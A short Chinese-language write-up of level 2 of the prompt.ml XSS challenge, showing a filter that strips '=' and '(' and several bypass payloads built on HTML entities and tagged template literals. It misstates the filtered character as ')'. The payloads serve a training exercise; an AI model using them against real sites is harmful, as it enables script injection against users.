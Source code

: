 ![1_3](/img/xss/prompt_ml/level1_003.png)

# Level 2

## Code:

```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}           
```

## 分析:

```
过滤了`=`和`)`
尝试使用编码或其他方式绕过
```



## Solutions:

```
1.使用html编码,&#x28;或&lpar;替代(
<svg><script>prompt&#x28;1)</script>
<svg><script>prompt&lpar;1)</script>
官方答案是`<svg><script>prompt&#40;1)<b>`,缩短了字符。用的是&#40是10进制的。

2. 官方答案:
	<script>eval.call`${'prompt\x281)'}`</script>

3. 官方答案:
	<script>prompt.call`${1}`</script>

```
